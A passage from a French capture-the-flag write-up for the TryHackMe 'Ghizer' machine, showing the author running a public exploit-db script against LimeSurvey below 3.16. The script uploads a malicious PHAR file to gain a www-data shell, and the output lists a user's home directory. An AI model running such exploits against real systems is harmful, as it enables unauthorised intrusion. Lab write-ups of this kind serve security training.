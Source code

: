 On voit que pour les versions inferieurs 3.16, il y a un exploit d'exécution de code à distance.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python2 /usr/share/exploitdb/exploits/php/webapps/46634.py http://ghizer.thm admin password
[*] Logging in to LimeSurvey...
[*] Creating a new Survey...
[+] SurveyID: 976181
[*] Uploading a malicious PHAR...
[*] Sending the Payload...
[*] TCPDF Response: <strong>TCPDF ERROR: </strong>[Image] Unable to get the size of the image: phar://./upload/surveys/976181/files/malicious.jpg
[+] Pwned! :)
[+] Getting the shell...
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ ls -al /home/veronica
total 152
drwxr-xr-x 22 veronica veronica 4096 Sep  7 04:07 .
drwxr-xr-x  3 root     root     4096 Jul 23  2020 ..
-rw-------  1 veronica veronica 1908 Sep  7 04:07 .ICEauthority
-rw-------  1 veronica veronica   51 Sep  7 04:07 .Xauthority
-rw-------  1 root     root     1534 Jul 23  2020 .bash_history
-rw-r--r--  1 veronica veronica  220 Jul 23  2020 .bash_logout
-rw-r--r--  1 veronica veronica 3771 Jul 23  2020 .bashrc
drwx------ 17 veronica veronica 4096 Jul 23  2020 .cache
drwx------  3 veronica veronica 4096 Jul 23  2020 .compiz
drwx------ 16 veronica veronica 4096 Jul 23  2020 .config
drwx------  3 root     root     4096 Jul 23  2020 .dbus
-rw-r--r--  1 veronica veronica   25 Jul 23  2020 .dmrc
drwx------  2 veronica veronica 4096 Jul 23  2020 .gconf
drwxr-x---  3 veronica veronica 4096 Jul 23  2020 .ghidra
drwx------  3 veronica veronica 4096 Sep  7 04:07 .gnupg
drwxr-x---  3 veronica veronica 4096 Jul 23  2020 .java
drwx------  3 veronica veronica 4096 Jul 23  2020 .local
-rw-------  1 veronica veronica  199 Jul 23  2020 .mysql_history
drwxrwxr-x  2 veronica veronica 4096 Jul 23  2020 .nano
-rw-r--r--  1 veronica veronica  655 Jul 23  2020 .profile
-rw-r--r--  1 veronica veronica    0 Jul 23  2020 .sudo_as_admin_successful
-rw-r--r--  1 root     root      183 Jul 23  2020 .wget-hsts
-rw-------  1 veronica veronica   82 Sep  7 04:07 .xsession-errors
-rw-------  1 veronica veronica 1375 Jul 23  2020 .xsession-errors.old
drwxr-xr-x  2 veronica veronica 4096 Jul 23  2020 Desktop
drwxr-xr-x  2 veronica veronica 4096 Jul 23  2020 Documents
drwxr-xr-x  2 veronica veronica 4096 Jul 23  2020 Downloads
drwxr-xr-x  2 veronica veronica 4096 Jul 23  2020 Music
drwxr-xr-x  2 veronica veronica 4096 Jul 23  2020 Pictures
drwxr-xr-x  2 veronica veronica 4096 Jul 23  2020 Public
drwxr-xr-x  2 veronica veronica 4096 Jul 23  2020 Templates
drwxr-xr-x  2 veronica veronica 4096 Jul 23  2020 Videos
drwxr-xr-x  2 root     root     4096 Jul 23  2020 __pycache__
-rw-r--r--  1 root     root       86 Jul 23  2020 base.py
-rw-r--r--  1 veronica veronica 8980 Jul 23  2020 examples.desktop
drwxrwxrwx  9 veronica veronica 4096 Feb 28  2019 ghidra_9.0
-rw-------  1 veronica veronica   70 Jul 23  2020 user.txt
```
